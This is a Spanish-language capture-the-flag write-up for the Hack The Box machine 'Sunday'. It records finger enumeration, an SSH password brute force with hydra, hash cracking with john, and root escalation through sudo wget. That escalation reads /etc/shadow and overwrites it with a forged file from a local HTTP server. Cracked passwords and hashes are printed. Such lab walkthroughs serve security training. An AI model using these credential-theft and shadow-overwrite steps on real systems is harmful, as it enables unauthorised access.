 # Sunday ![Avatar](https://www.hackthebox.eu/storage/avatars/3a186834eba2b780dacdaadcc157d309_thumb.png)

## Initial Scan
```
79/tcp    open  finger  Sun Solaris fingerd
|_finger: No one logged on\x0D
111/tcp   open  rpcbind 2-4 (RPC #100000)
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
60815/tcp open  unknown
61350/tcp open  unknown
```

## Enum
### Finger

Usando finger-user-enum obtenemos los siguientes usuarios
```
admin@10.10.10.76
root@10.10.10.76
service@10.10.10.76
adm@10.10.10.76
mysql@10.10.10.76
access@10.10.10.76
user@10.10.10.76
sammy@10.10.10.76
sunny@10.10.10.76
bin@10.10.10.76
```
Quitamos los default y lanzamos un ataque de fuerza bruta usando hydra, la lista quedaria

```
root
admin
adm
user
sammy
sunny
```
Toca hacer bruteforcing
```
hydra -L user.txt -P rockyou.txt ssh://10.10.10.76 -s 22022 -t 64
```

La contraseña para sunny es sunday
```
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
```
AL ir a entrar nos da el siguiente error
```
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

Para solventarlos cambiamos el comando de inicio de sesion en el shh:
```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sunny@10.10.10.76 -p 22022
```

No user.txt por ahora pero si que tenemos una carpeta de backups en /, veamos que hay en ella 

Un archivo llamado agent22 que no podemos leer y el shadow.backup

```
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
Vamos a crackear el de sammy
```
pj@HTB:~$ john shadow.bk --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (?)
1g 0:00:00:40 DONE (202
```
Con esto entramos en sammy y leemos la user.txt

## Privesc
```
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```
### Opcion 1 Shadow File Crack

```
sudo /usr/bin/wget -i /etc/shadow
root:$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD:14146:::::::
```
Y a crackear

### Opcion 2 Wget root.txt
```
sudo /usr/bin/wget -i /root/root.txt
```

### Opcion 3 Fake Shadow

```
root:HASHPARAELPASSQUEHEMOSSACAO:14146::::::
daemon:NP:6445::::::
bin:NP:6445::::::
sys:NP:6445::::::
adm:NP:6445::::::
lp:NP:6445::::::
uucp:NP:6445::::::
nuucp:NP:6445::::::
dladm:*LK*:::::::
smmsp:NP:6445::::::
listen:*LK*:::::::
gdm:*LK*:::::::
zfssnap:NP:::::::
xvm:*LK*:6445::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
Ponemos en marcha un HTTP server en local con el i hacemos el overwrite usando wget.
